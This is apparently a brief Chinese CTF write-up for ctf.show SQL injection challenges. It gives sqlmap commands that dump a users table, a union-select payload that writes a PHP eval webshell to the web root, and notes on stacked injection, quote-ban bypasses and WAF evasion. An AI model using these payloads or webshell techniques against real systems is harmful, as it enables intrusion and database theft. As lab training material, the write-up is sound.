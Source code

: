 ## 联合查询注入 

尝试sqlmap，
```
sqlmap -u "https://61847c0f-54cb-4da6-8115-a43decc745a3.challenge.ctf.show/?id=4" -p id --dbs --batch
sqlmap -u "https://61847c0f-54cb-4da6-8115-a43decc745a3.challenge.ctf.show/?id=4" -p id -D ctfshow_page_informations --tables --batch 
sqlmap -u "https://61847c0f-54cb-4da6-8115-a43decc745a3.challenge.ctf.show/?id=4" -p id -D ctfshow_page_informations -T users --dump --batch
```

## 布尔盲注爆破 

用户名和密码都可以注入，联合查询写入webshell，

>password=1' union select 1,2,3,'<?php eval($_POST[1]);?>' into outfile'/var/www/html/1.php'%23&username=1

蚁剑连接上去，`conn.php`里面有数据库连接密码，连接上去，然后拿flag

## 堆叠注入写Shell 

bp里面fuzz字典跑一下，发现用户名是`\`的响应不一样，尝试密码去注入`or 1=1#`，成功登陆，再继续尝试sleep发现有效果。  

尝试写马，发现他把单引号ban了，双引号继续写入就行了，flag在根目录

## WAF绕过

不知道waf了什么，还是继续写马，phpinfo可以直接写入

